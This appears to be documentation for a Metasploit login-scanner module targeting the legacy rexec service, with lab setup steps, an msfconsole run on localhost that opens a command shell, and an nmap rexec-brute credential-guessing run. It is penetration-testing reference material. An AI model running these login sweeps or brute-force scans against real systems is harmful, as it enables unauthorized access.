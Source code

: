 ## Vulnerable Application

The R Services (rexecd, rlogind, and rshd) are a suite of unencrypted remote command/login services developed in the 1980s.
These services are all but unused in modern computing, as they have been replace by telnet and ssh.

The following was done on Kali linux:

  1. `apt-get install rsh-server` which includes: `rexecd`, `rlogind` and `rshd`.
  2. Start the service: `service openbsd-inetd start`

## Verification Steps

  1. Install and configure rexec
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/rservices/rexec_login`
  4. Do: `set rhosts`
  5. Set any other credentials that will need to be set
  6. Do: `run`

## Scenarios

  A run against the configuration from these docs

  ```
    msf > use auxiliary/scanner/rservices/rexec_login 
    msf auxiliary(rexec_login) > set username test
    username => test
    msf auxiliary(rexec_login) > set password 'test'
    password => test
    msf auxiliary(rexec_login) > run
    
    [*] 127.0.0.1:512         - 127.0.0.1:512 - Starting rexec sweep
    [+] 127.0.0.1:512         - 127.0.0.1:512, rexec 'test' : 'test'
    [!] 127.0.0.1:512         - *** auxiliary/scanner/rservices/rexec_login is still calling the deprecated report_auth_info method! This needs to be updated!
    [!] 127.0.0.1:512         - *** For detailed information about LoginScanners and the Credentials objects see:
    [!] 127.0.0.1:512         -      https://github.com/rapid7/metasploit-framework/wiki/Creating-Metasploit-Framework-LoginScanners
    [!] 127.0.0.1:512         -      https://github.com/rapid7/metasploit-framework/wiki/How-to-write-a-HTTP-LoginScanner-Module
    [!] 127.0.0.1:512         - *** For examples of modules converted to just report credentials without report_auth_info, see:
    [!] 127.0.0.1:512         -      https://github.com/rapid7/metasploit-framework/pull/5376
    [!] 127.0.0.1:512         -      https://github.com/rapid7/metasploit-framework/pull/5377
    [*] Command shell session 2 opened (127.0.0.1:37489 -> 127.0.0.1:512) at 2017-04-27 20:56:54 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

## Confirming using NMAP

Utilizing [rexec-brute](https://nmap.org/nsedoc/scripts/rexec-brute.html)

  ```
    nmap -p 512 --script rexec-brute 127.0.0.1
    
    Starting Nmap 7.40 ( https://nmap.org ) at 2017-04-27 21:23 EDT
    Nmap scan report for localhost (127.0.0.1)
    Host is up (0.000037s latency).
    PORT    STATE SERVICE
    512/tcp open  exec
    | rexec-brute: 
    |   Accounts: 
    |     test:test - Valid credentials
    |_  Statistics: Performed 7085940 guesses in 629 seconds, average tps: 9231.6
  ```